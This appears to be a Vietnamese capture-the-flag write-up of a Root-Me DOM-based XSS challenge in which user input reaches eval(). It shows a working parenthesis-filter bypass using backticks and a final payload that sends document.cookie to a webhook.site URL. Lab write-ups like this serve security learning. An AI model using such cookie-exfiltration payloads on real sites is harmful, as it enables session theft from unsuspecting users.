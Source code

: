 ## Root-me-8: [**XSS DOM Based - Eval**](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Eval)

Thử truyền tham số bất kỳ vào parameter `?calculation`

![image.png](Images/image%2027.png)

Tham số đầu vào phải có dạng giống như regex này: digit (+, -, *, /) digit

Khi truyền 1 phép tính vd như `5+5` thì tham số này sẽ được đưa vào hàm `eval()` như sau

![image.png](Images/image%2028.png)

Thử payload: `5 + 5 + alert(1)`    (alert sẽ được thực hiện trong `eval()`)

![image.png](Images/image%2029.png)

Web đã filter dấu () —> dùng backticks để thay dấu ()

payload: `5+5+alert`1``

![image.png](Images/image%2030.png)

alert thành công, thử gửi cookie của bản thân về webhook

payload: `5+5+prompt`${document.location=[https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=](https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=)+document.cookie}`` (prompt sẽ trả về 1 box thông báo và thực thi lênh bên trong nó vì đang sử dụng ${} trong eval)
